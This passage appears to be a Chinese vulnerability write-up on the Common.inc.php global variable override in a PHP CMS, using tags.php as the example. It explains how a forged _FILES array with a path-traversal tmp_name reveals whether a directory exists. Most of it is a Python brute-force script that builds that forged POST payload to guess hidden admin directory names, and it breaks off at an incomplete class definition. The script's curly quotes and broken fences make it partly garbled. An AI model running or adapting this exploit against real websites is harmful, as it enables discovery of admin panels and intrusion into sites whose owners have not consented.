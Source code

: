 Common.inc.php 是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

当目录存在点时候

![image](../img/310cc423b2de1a47c848577d65de539e.png)

当目录不存在点时候

### python脚本

```
#!/usr/bin/env python
#coding:utf-8
import requests
import itertools
from random import choice
import sys

characters = “abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!#@-”

back_dir = “”

show_message = {}

check_message = {}

valid_file = []

data = {

“_FILES[tools][tmp_name]” : “./…/{p}../img/adminico.gif”,

“_FILES[tools][name]” : 0,

“_FILES[tools][size]” : 0,

“_FILES[tools][type]” : “image/gif”

}

headers = {

```
 "User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101 Firefox/40.0",
                "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                "Accept-Language":"zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                "Content-Type":"application/x-www-form-urlencoded",
                "Connection":"Close" 
```

}

class Bute_Login:
```